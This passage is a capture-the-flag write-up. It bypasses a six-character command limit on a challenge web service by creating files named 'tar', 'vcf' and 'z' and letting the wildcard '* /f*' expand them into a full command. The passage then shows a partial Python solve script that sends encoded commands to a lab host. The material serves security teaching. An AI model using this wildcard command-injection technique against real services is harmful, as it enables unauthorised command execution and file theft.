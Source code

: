 The process was the following:
1. Tar the `/flag` directory and put the tarball in the `/tmp/<id>` directory for our session.
2. Use the `cat` endpoint to download the tarball to our local.

Initial attempts failed until we realised that the binaries installed on the remote are busybox. This means they don't include all flags on a fully-functional binary. We used the following docs to help build the payloads: https://boxmatrix.info/wiki/Property:tar.

We used the following command to tar the flag directory:
```shell
tar vcf z /f*
```

 We then used the `cat` endpoint to download the resulting tarball, `z`.

Because of the 6 char limit, we created the following files to be used in our wildcard exploit:
- `tar`
- `vcf`
- `z`

Finally, we run the wildcard exploit, where the files generated before expand into the full command:

```
* /f*
```

A similar process was used to determine that `flag.txt` exists in the `/flag` directory. It involved piping the output of `ls` to a file and downloading it.

## Solve Script
This is the script that returned the flag.
```python
import requests
import base64

# HOST = "http://127.0.0.1:5000"
HOST = "http://10.3.44.4:1118"

def encode(data: str) -> str:
	data = base64.b64encode(data.encode()).decode()

	if len(data) > 10:
		print("FAIL!")
		exit(1)
	return data

def run(sess, command: str):
	command = encode(command)
	res = sess.get(f"{HOST}/run/{command}")
	print(res.status_code)

	return res

def cat(sess, file: str):
	file = encode(file)
	res = sess.get(f"{HOST}/cat/{file}")
	print(res.status_code)

	return res

if __name__ == "__main__":
	sess = requests.session()

	# TAR BUSYBOX LOCAL
	run(sess, ">tar").text
	run(sess, ">vcf").text
```